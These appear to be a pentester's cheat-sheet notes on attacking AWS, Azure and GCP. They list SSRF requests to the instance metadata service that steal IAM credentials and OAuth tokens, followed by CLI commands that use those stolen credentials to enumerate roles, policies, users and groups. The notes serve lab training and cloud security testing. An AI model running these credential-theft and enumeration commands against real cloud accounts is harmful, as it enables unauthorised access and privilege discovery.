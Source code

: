 # Cloud Pentest - Notes

**References:**

- https://github.com/RedTeamOperations/RedCloud-OS?tab=readme-ov-file

## Courses

- [Multi Cloud Red Team Analyst](https://cyberwarfare.live/product/multi-cloud-red-team-analyst-mcrta/)

## AWS

**References:**

- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf

**Commands:** 

Search S3 Buckets: `python3 cloud_enum.py -k "NAME"` 

SSRF URL for Token and key: `http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role`

Configure & Validate Temporary Credential in AWS CLI:

1. aws configure set aws_access_key_id  [key-id] --profile ec2
2.  aws configure set aws_secret_access_key  [key-id] --profile ec2
3.  aws configure set aws_session_token [token] --profile ec2

Get the Managed Policy Attached to EC2 Instance : `aws iam list-attached-role-policies --role-name ec2-role --profile ec2`

List the IAM groups that the specified IAM user belongs to: `aws iam list-groups-for-user --user-name [user-name] --profile ec2`

 List the names of the inline policies embedded in the specified IAM role : ` aws iam list-role-policies --role-name [role-name] --profile ec2`

List all manages policies that are attached to the specified IAM user : `aws iam list-attached-user-policies --user-name [user-name] --profile ec2` 

Lists all managed policies that are attached to the specified IAM Group : `aws iam list-attached-group-policies --group-name [group-name] --profile ec2`

## AZURE

**References:** 

- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#cea8

**Commands:** 

**Note:** API Version in this lab -> 2018-02-01

Instance Details: `curl -H "Metadata:true" "http://169.254.169.254/metadata/instance?api-version=[API-VERSION]"`

Retrieve Management Token: `curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=[API-VERSION]&resource=https://management.azure.com/"`

Retrieve Graph Token: `curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=[API-VERSION]&resource=https://graph.microsoft.com/"`

**Note:** Decode JWT Token to retrieve data.

Configure access token in az powershell cli:

1. `$token = “AccessToken”`	
2. `Connect-AzAccount -AccessToken $token -AccountId [Tenant ID]`

Get role assignment of managed identity: `Get-AzRoleAssignment -ObjectId [PrincipalID-ManagedIdentity]`

List role assignment: `Get-AzRoleAssignment`

Get role assignment of name: `Get-AzroleDefinition  -Name [RoleDefinitionName]`

Connect to Graph using token: `$token = "[TOKEN]" ; Connect-MgGraph -AccessToken ($token |ConvertTo-SecureString -AsPlainText -Force)`

Enumerate Groups: `Get-MgGroup`

Enumerate Group Membership: `Get-MgGroupMember -GroupId [GroupId]`

Enumerate Users: `Get-MgUser`

Enumerate Applications: `Get-MgApplication`

Enumerate Application Owner: `Get-MgApplicationOwner -ApplicationId "[ID]"`

## GCP

**Commands:** 

Activate key file: `gcloud auth activate-service-account --key-file FILE.json`

List auths: `gcloud auth  list`

List instances: `gcloud compute instances list`

List projects: `gcloud projects list`

List config: `gcloud config list`

List organizations: `gcloud organizations list`

Set account: `gcloud config set account [ACCOUNT_ID]`

Get IAM policy from project: `gcloud projects get-iam-policy [PROJECT_ID]`

Describe roles: `gcloud iam roles describe [ROLE_ID]`

Get IAM policy from instances: `gcloud compute instances get-iam-policy [INSTANCE_ID] --zone [ZONE_ID] --project [PROJECT_ID]`

List storages from project: `gcloud storage ls --project [PROJECT_ID]`